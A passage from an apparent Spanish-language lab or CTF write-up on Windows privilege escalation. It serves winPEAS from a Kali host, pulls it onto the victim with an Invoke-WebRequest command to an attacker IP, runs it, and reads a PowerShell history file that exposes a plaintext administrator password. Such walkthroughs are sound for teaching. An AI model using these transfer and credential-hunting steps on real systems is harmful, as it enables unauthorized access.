 ## Escalate Privileges

Despues de buscar un rato y no encontrar gran cosa, vamos a utilizar un script automatizado llamado `winPeasx64.exe` para poder enumerar el sistema completo a ver que vemos.

URL = [Download winPeasx64.exe GitHub](https://github.com/peass-ng/PEASS-ng/releases/tag/20240707-68b6f322)

Una vez que nos lo hayamos descargado en la maquina `host` del `kali` vamos abrir un servidor de `python3` para pasarnoslo a la maquina victima.

```shell
python3 -m http.server 80
```

En la maquina victima haremos esto.

```powershell
cd ../Desktop
Invoke-WebRequest -Uri http://<IP>/winPEASx64.exe -OutFile C:\Users\hope\Desktop\winPEASx64.exe
```

Una vez descargado, vamos a ejecutarlo de esta forma:

```powershell
.\winPEASx64.exe
```

Info:

```
...............................<RESTO_DE_CODIGO>...................................
ÉÍÍÍÍÍÍÍÍÍÍ¹ PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.1.19041.1
    PowerShell Core Version: 
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 
    PS history file: C:\Users\hope\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    PS history size: 234B
...............................<RESTO_DE_CODIGO>...................................
```

Veremos un archivo interesante, que si lo leemos veremos lo siguiente:

```shell
type C:\Users\hope\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

Info:

```
Set-LocalUser -Name "administrator" -Password (ConvertTo-SecureString "SuperAdministrator123" -AsPlainText -Force)
```

Vemos que aparece la contraseña del `administrador` en texto plano, vamos a ver si realmente funciona.
